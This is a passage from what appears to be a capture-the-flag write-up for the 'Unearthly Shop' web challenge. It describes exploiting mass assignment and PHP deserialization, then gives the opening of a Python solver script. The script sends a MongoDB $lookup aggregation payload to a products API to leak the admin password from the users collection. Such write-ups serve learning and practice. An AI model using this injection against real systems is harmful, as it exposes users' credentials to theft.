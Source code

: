 Sending this payload in the mass assignment vulnerability from before, and then logging in again to trigger deserialization, we get the flag.


[![](/assets/image/attachments/2023-06-24-HTBCA-Unearthly-Shop-assign-exploit.png)](/assets/image/attachments/2023-06-24-HTBCA-Unearthly-Shop-assign-exploit.png){:.glightbox}

[![](/assets/image/attachments/2023-06-24-HTBCA-Unearthly-Shop-trigger-deserial.png)](/assets/image/attachments/2023-06-24-HTBCA-Unearthly-Shop-trigger-deserial.png){:.glightbox}

Stitching all of these individual parts together, we can form a python script to solve the challenge automatically. I've got around the PHP requirement by embedding the PHP files in the script, and creating them as temporary files, and running them via a subprocess to generate the payload.

```python
#!/usr/bin/env python3
import requests, os, subprocess, json, sys
from tempfile import NamedTemporaryFile

# config
local = True
proxy = True


url = "localhost" if local else "188.166.152.84"
port = 1337 if local else 31447

sess = requests.Session()
p = {'http':'http://127.0.0.1:8080'} if proxy else {}
sess.proxies.update(p)

payload = [
    {
        "$lookup": {
            "from":"users",
            "localField":"_id",
            "foreignField":"_id",
            "as":"Pass"
        }
    },
    {
        "$unwind": {
            "path":"$Pass",
            "preserveNullAndEmptyArrays": True
        }
    }
]

print(f"[*] Leaking password via configurable MongoDB query...")
r = sess.post(f"http://{url}:{port}/api/products", json=payload)

admin_password = r.json()[0]['Pass']['password']
print(f"[+] Leaked password: {admin_password}")

```
